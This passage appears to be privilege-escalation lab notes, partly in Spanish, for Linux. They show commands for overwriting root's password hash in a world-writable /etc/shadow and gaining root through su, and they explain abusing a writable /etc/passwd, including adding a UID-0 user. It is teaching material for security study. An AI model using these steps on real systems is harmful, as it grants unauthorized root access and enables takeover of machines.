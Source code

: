 ```
$ su
Password:
root@debian:/# id
uid=0(root) gid=0(root) groups=0(root)
```

## Privilege Escalation (#2)

1- Check the permissions of the /etc/shadow file:

```
$ ls -l /etc/shadow
-rw-r—rw- 1 root shadow 810 May 13 2017 /etc/shadow
```

Note that it is world writable.

2- Copy / save the contents of /etc/shadow so we can
restore it later.

3- Generate a new SHA-512 password hash:

```
$ mkpasswd -m sha-512 newpassword
$6$DoH8o2GhA$5A7DHvXfkIQO1Zctb834b.SWIim2NBNys9D9h5wUvYK3IOGdxoOlL9VE
WwO/okK3vi1IdVaO9.xt4IQMY4OUj/
```

4- Edit the /etc/shadow and replace the root user’s
password hash with the one we generated.

```
root:$6$DoH8o2GhA$5A7DHvXfkIQO1Zctb834b.SWIim2NBNys9D9h5wUvYK3IOGdxoO
lL9VEWwO/okK3vi1IdVaO9.xt4IQMY4OUj/:17298:0:99999:7:::
```

5- Use the su command to switch to the root user,
entering the new password when prompted:

```
$ su
Password:
root@debian:/# id
uid=0(root) gid=0(root) groups=0(root)
```

## /etc/shadow

<p>Históricamente, el archivo /etc/passwd contenía los hash de las contraseñas de los usuarios.</p>
<p>Por compatibilidad con el pasado, si el segundo campo de una fila de usuario en /etc/passwd
contiene un hash de contraseña, tiene prioridad sobre el hash en /etc/shadow.</p>
<p>Si podemos escribir en /etc/passwd, podemos introducir fácilmente un hash de contraseña conocido para
el usuario root, y luego usar el comando su para cambiar al usuario root.</p>
<p>Alternativamente, si sólo podemos anexar al archivo, podemos crear un nuevo usuario pero
asignarle el ID del usuario root (0). Esto funciona porque Linux permite múltiples entradas
para el mismo ID de usuario, siempre que los nombres de usuario sean diferentes.</p>
